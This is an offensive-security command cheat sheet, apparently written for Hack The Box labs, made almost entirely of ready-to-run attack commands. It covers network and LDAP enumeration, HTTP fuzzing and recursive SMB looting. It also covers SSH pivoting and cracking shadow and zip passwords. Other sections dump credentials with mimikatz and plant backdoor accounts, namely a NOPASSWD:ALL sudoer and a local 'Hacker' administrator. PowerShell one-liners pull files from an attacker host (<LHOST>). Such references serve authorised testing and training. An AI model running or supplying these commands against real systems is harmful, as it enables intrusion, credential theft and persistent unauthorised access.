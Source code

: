# Commands

## Kali

+ ### Shortcuts

    > **SSH**: SSH with Clear Password

    ```pwsh
    sshpass -p <PASSWORD> ssh <RUSER>@<RHOST>
    ```

+ ### Enumerating

    > **NMap**: Top Scan (Fast)

    ```pwsh
    nmap -Pn -n -v -sV -sC <RHOST>
    ```

    > **NMap**: Full Scan with Firewall Protection (Slow)

    ```pwsh
    nmap -sT -sU -sV -O -T4 -A -Pn --open --max-retries 3 --max-scan-delay 1s --defeat-rst-ratelimit --script-args unsafe=1 -oN <LPATH> <RHOST>
    ```

    > **LDAP**: Full Enumerating

    ```pwsh
    ldapsearch -x -h <RHOST> -D '' -w '' -b "DC=domain,DC=local"
    ```

    > **DirSearch**: Web Enumerating

    ```pwsh
    dirsearch -u http://<RHOST>:<RPORT>/ -t 16 -r -e txt,html,php,asp,aspx,jsp -f -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt tcp_80_http_dirsearch_dirbuster.txt" --exclude-texts="<TEXT>"
     ```


+ ### Fuzzing

    > **WFuzz**: Fuzzing HTTP POST Data

    ```pwsh
    wfuzz -c -z file,<FUZZ-FILE> -v --hs "<BAD-TEXT>" -d "<PARAMETER>=FUZZ" "http://<RHOS>:<RPORT>/<RPATH>"
    ```

+ ### Remote Access

    > **Remote Desktop Connection**:

    ```pwsh
    rdesktop <RHOST> -r disk:share=<RPATH>
    ```

    > **PowerShell Core**:

    ```pwsh
    > New-PSSession -Credential (Get-Credential) -ComputerName <RHOST> -Authentication Negotiate
    > Enter-PSSession 1
    ```

+ ### Looting

    > **SMBClient**: Download All Files

    ```pwsh
    smbclient '\\<RHOST>\<RPATH>' -c 'prompt OFF;recurse ON;lcd '.';mget *' -U 'User'
    ```

+ ### Compiling

    > x64 Compile

    ```pwsh
    x86_64-w64-mingw32-gcc Source.c -o File.exe
    ```

    > x86 Compile

    ```pwsh
    i686-w64-mingw32-gcc Source.c -o File.exe -lws2_32
    ```

+ ### File Transfer

    > **SCP**: Secure Copy with SSH

    ```pwsh
    scp <LPATH> <RUSER>@<RHOST>:<RPATH>
    ```

+ ### Pivoting

    > **SShuttle**: VPN-Like Network Access

    > **Note:** Server must have python 2.3 or higher.

    ```pwsh
    sshuttle -r <RUSER>@<RHOST>:<RPORT> <RSubnet>/24
    ```

    > Dynamic with SSH & ProxyChains

    ```pwsh
    > ssh -D 9050 <RUSER>@<RHOST> -p 22
    > export PROXYCHAINS_SOCKS5=9050
    > proxychains nmap -Pn -n -v -sV -sC <IP>
    ```

    > Static with SSH

    ```pwsh
    ssh -g -L <LPORT>:localhost:<RPORT> <RUSER>@<RHOST>
    ```

+ ### Password Cracking

    > Passwd & Shadow Files

    ```pwsh
    > unshadow passwd shadow > passwords.txt
    > john passwords.txt
    ```

    > Protected Zip Files

    ```pwsh
    > zip2john file.zip > password.txt
    > john passwords.txt
    ```

---

## Linux

+ ### Shell Helpers

    > Fixing PATH Enviroment Variable

    ```pwsh
    export PATH=$PATH:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/sbin:/bin:/sbin
    ```

    > Fixing TTY

    ```pwsh
    > python -c 'import pty; pty.spawn("/bin/sh")'
    > python -c 'import pty; pty.spawn("/bin/bash")'
    ```

+ ### Process List

    > List Running Process

    ```pwsh
    > ps aux
    > ps aux | grep lfmserver
    ```

+ ### Add Local Sudoer

    > Using Sudoers File

    ```pwsh
    > adduser Hacker --force-badname
    > passwd Hacker1
    > echo 'Hacker  ALL=(ALL:ALL) NOPASSWD:ALL' >> /etc/sudoers
    > su - Hacker
    > sudo bash
    ```

---

## Windows

+ ### Download File

    > Inside PowerShell

    ```pwsh
    > Invoke-WebRequest -URI http://<LHOST>/<LPATH> -OutFile <FILE>
    ```

    > Inside Command Line

    ```pwsh
    > powershell -Command "& { (New-Object Net.WebClient).DownloadFile('http://<LHOST>/<LPATH>','<FILE>') }"
    > powershell -Command "Invoke-WebRequest -URI http://<LHOST>/<LPATH> -OutFile <FILE>"

    ```

+ ### Windows Enumeration

    > Using Net.exe

    ```pwsh
    > net user
    > net group
    ```

    > Using Mimikatz

    ```pwsh
    > mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit
    ```

+ ### Add Local Administrator

    > Using Net.exe

    ```pwsh
    > net user Hacker Hacker1 /add
    > net localgroup administrators Hacker /add
    ```

---

## Hack The Box

+ ### Refresh Flags

    > User.txt

    ```pwsh
    gci -path c:\ -Recurse -ErrorAction SilentlyContinue -include user.txt
    ```

    > Root.txt

    ```pwsh
    gci -path c:\ -Recurse -ErrorAction SilentlyContinue -include root.txt
    ```
